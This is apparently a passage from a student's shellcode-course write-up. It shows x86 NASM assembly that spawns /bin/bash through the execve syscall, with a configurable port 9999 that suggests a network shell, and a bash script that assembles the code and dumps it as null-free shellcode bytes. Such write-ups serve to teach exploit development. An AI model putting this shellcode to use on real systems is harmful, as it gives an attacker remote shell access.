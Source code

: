 ```nasm
	push eax
	push 0x68736162
	push 0x2f6e6962
	push 0x2f2f2f2f

	mov ebx,esp ; pointer to "////bin/bash"
	push eax
	mov edx,esp ; env pointer (NULL)

	push ebx
	mov ecx,esp ; pointer to [pointer to "////bin/bash", 0]

	mov al, 11 ; execve syscall
	int 0x80

get_port_2:
	call got_port
	port: db 0x27, 0x0f ; port 9999
	; easy to configure the port number, just change the last two bytes

```

I compiled this asm code with a modified version of the compile script given in the course:

```bash
#!/bin/bash

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -o $1 $1.o

echo '[+] Dumping shellcode ...'
echo -ne "\""
for s in `objdump -d $1 | grep "^ " | cut -f2`
do
  if [ $s == "00" ]
  then
     echo "Shellcode contains a null byte! Aborting!"
     exit
  else
     echo -n '\x'$s
  fi
done
echo "\""

echo '[+] Done!'
```

This script does the regular compilation, but also spits out the shellcode if it contains no null bytes. So I was able to run the executable file directly to test to make sure it worked.
